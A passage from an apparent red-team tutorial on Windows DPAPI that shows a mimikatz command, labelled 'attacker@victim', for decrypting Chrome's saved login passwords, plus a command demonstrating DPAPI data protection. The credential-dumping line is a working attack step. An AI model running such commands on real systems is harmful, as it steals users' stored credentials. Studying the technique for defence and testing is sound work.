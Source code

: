 {% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-04-13-15-34-29.png)

## Protecting and Unprotecting Data

Using mimikatz, we can easily encrypt any data that will only be accessible to currently logged on user \(unless a bad admin comes by - more on this later\):

```csharp
dpapi::protect /data:"spotless"
```

![text &quot;spotless&quot; encrypted into a blob of bytes](../../.gitbook/assets/screenshot-from-2019-04-13-15-42-36.png)
